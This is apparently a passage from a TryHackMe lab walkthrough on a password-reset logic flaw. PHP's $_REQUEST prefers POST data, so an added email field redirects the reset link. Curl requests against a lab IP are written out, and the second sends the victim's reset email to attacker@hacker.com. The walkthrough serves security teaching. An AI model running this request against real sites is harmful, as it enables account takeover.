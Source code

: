 For demonstration purposes, we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.

![](images/f457baf00c357990014739bd6bce5b75.png)

At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.
This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.

```telnet
                Curl Request 1:

user@tryhackme$ curl 'http://10.10.163.208/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the ```-H``` flag to add an additional header to the request. In this instance, we are setting the ```Content-Type``` to ```application/x-www-form-urlencoded```, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable ```$_REQUEST```.
The PHP ```$_REQUEST``` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
curl 'http://10.10.163.208/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

```telnet
                Curl Request 2:

user@tryhackme$ curl 'http://10.10.163.208/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
